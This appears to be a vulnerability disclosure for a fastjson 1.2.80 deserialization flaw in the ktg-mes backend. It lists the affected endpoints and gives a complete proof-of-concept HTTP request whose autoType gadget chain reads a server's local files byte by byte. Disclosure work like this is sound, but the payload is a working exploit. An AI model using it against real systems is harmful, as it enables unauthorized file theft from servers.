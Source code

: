 ## There is a fastjson deserialization vulnerability in the ktg-mes backend

fastjson version 1.2.80：

![image-20250905151032217](./images/image-20250905151032217.png)

com.ktg.generator.controller.GenController#editSave：

![image-20250905151103768](./images/image-20250905151103768.png)

com.ktg.generator.service.IGenTableService#validateEdit：

![image-20250905151119637](./images/image-20250905151119637.png)

Summary of similar vulnerability entry points:

com.ktg.generator.controller.GenController#editSave

com.ktg.mes.wm.controller.mobile.WmStockTakingMobController#add

com.ktg.mes.wm.controller.mobile.WmStockTakingMobController#edit

com.ktg.mes.wm.controller.WmStockTakingController#add

com.ktg.mes.wm.controller.WmStockTakingController#edit

Single byte read file poc：

```javap
PUT /dev-api/tool/gen HTTP/1.1
Host: 10.157.131.188
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Admin-Token=eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6Ijc4YzVmYjlkLTQ1MzMtNGEwZC04NTQyLTBhZTQ0YmQ5ZjY2NSJ9.hR1uO_MHvDBheqcoD3X8joZTEPq2PD92iZWCV6u5_MHQGdnkf7mpYHTCJrg9CelTPuRMh50AAIOlUJUmVD_rcA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: application/json, text/plain, */*
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJsb2dpbl91c2VyX2tleSI6Ijc4YzVmYjlkLTQ1MzMtNGEwZC04NTQyLTBhZTQ0YmQ5ZjY2NSJ9.hR1uO_MHvDBheqcoD3X8joZTEPq2PD92iZWCV6u5_MHQGdnkf7mpYHTCJrg9CelTPuRMh50AAIOlUJUmVD_rcA
Referer: http://10.157.131.188/tool/gen
Content-Type: application/json

{
    "aaa":"test","tableName":"1","tableComment":"2","className":"3","packageName":"4","moduleName":"5","businessName":"6","functionName":"7","functionAuthor":"8","tplCategory":"tree",
    "params":{
        "a": "{\"@type\": \"java.lang.Exception\",\"@type\": \"com.fasterxml.jackson.core.exc.InputCoercionException\",    \"p\": {    }  }",
        "b": {
          "$ref": "$.a.a"
        },
        "c": "{  \"@type\": \"com.fasterxml.jackson.core.JsonParser\",  \"@type\": \"com.fasterxml.jackson.core.json.UTF8StreamJsonParser\",  \"in\": {}}",
        "d": {
            "$ref": "$.c.c"
        },
        "abc":{
            "@type":"java.io.InputStream",
            "@type":"org.apache.commons.io.input.BOMInputStream",
            "delegate":{
                "@type":"org.apache.commons.io.input.ReaderInputStream",
                "reader":{
                    "@type":"jdk.nashorn.api.scripting.URLReader",
                    "url":"file://D:/CodeAudit/ktg-mes-master/ktg-mes-master/test.txt"
                },
                "charsetname":"UTF-8",
                "buffersize":1024
            },
            "boms":[{
                "@type":"org.apache.commons.io.ByteOrderMark",
                "charsetname":"UTF-8",
                "bytes":[115]
            }],
            "address":{"$ref":"$.abc.BOM"}
        }
    }
}
```

![image-20250905151142780](./images/image-20250905151142780.png)